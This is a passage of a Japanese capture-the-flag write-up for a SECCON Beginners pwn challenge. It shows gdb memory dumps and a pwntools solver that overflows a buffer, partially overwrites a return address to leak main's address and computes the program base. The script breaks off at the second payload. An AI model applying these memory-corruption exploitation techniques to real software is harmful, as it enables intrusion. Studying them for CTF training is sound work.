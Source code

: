 3回目のpayload送信後のメモリの状態は以下のようになりました。書き込み先はbss領域になっています。

```bash
gdb-peda$ x/8gx $rsi
0x555555558830: 0x6363636363636363      0x00007ffff7df0e99
0x555555558840: 0x00007ffff7df17e5      0x00007ffff7f60031
0x555555558850: 0x00007ffff7e16490      0x0000000000000000
0x555555558860: 0x0000555555558830      0x00007ffff7e17f29
```
# **solver.py**

以下が最終的なsolverになりました！

```python
#!/usr/bin/python3
from pwn import *

#program & connect infomation
file = "./chall"
binary = ELF(file, checksec=False)
context.binary= file
#context.log_level = 'debug'
server= 'pivot4b-2.challenges.beginners.seccon.jp'
port = 12300

#case:remote
session = remote(server,port)
libc_file = "./libc.so.6"                                                     #配布されたlibcファイルのパス

#case:local
##session = process(["setarch", "linux64", "-R", file])                         #ASLR無効化用
#session = process(file)
#libc_file = "/lib/x86_64-linux-gnu/libc.so.6"                                #ローカル環境用のlibcファイル

#libc
libc = ELF(libc_file, checksec=False)

#1st send
payload = b'a' * 56
payload += b'\x26'                                                           # 下位1バイトだけ書き換えてメイン関数の戻り値を関数呼び出し前のアドレスにする。
session.sendafter(b'> ', payload)                                            # read()の読み込みサイズ未満で終わる必要がある。改行(\x0a)を含ませないようにsendlineafter()ではなくsendline()で送信

#1st recive
res = session.recvuntil(b'\n> ')                                             # リークするアドレスの途中に終端文字(\x00)がある場合はリーク不可のため異常終了を甘んじて受け入れる。(ex:0x00005600ec01422b)
print("------------------------------------")
print(res)

#base_calc
prefix = b'Message: ' + b'a' * 56
leak_bytes = res.split(prefix)[1].split(b'\nWelcome')[0]
leak_addr = int.from_bytes(leak_bytes.ljust(8, b'\x00'), 'little')
main_addr = leak_addr - 74                                               # main = (main+74) -74  
program_base = main_addr - binary.symbols['main']

print("------------------------------------")
print(f"{'leakaddress:':18} 0x{leak_addr:016x}")
print(f"{'program_base:':18} 0x{program_base:016x}")
print(f"{'main_addr:':18} 0x{main_addr:016x}")

#2nd send
payload = b'b' *48
```